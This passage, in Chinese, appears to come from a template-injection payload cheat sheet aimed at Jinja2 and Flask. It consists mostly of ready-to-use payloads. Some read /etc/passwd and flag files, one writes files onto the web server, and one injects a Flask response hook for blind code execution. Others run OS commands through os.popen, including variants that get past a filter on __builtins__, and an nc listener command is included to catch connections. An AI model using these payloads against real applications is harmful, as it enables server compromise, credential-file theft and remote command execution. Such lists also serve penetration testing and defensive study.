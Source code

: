 ```python
# ''.__class__.__mro__[2].__subclasses__()[40] = File 类
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

### Jinja2 - 写入远程文件

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

### Jinja2 - 远程命令执行

监听连接

```bash
nc -lnvp 8000
```

#### Jinja2 - 通过强制输出实现盲 RCE

您可以导入 Flask 函数以从易受攻击的页面返回输出。

```py
{{
x.__init__.__builtins__.exec("from flask import current_app, after_this_request
@after_this_request
def hook(*args, **kwargs):
    from flask import make_response
    r = make_response('Powned')
    return r
")
}}
```

#### 通过调用 os.popen().read() 利用 SSTI

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

但是，当过滤掉 `__builtins__` 时，以下有效负载是上下文无关的，除了存在于 Jinja2 模板对象中外，不需要任何其他内容：

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
```

我们可以使用 [@podalirius_](https://twitter.com/podalirius_) 提供的较短有效负载：[python-vulnerabilities-code-execution-in-jinja-templates](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/)：

```python
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
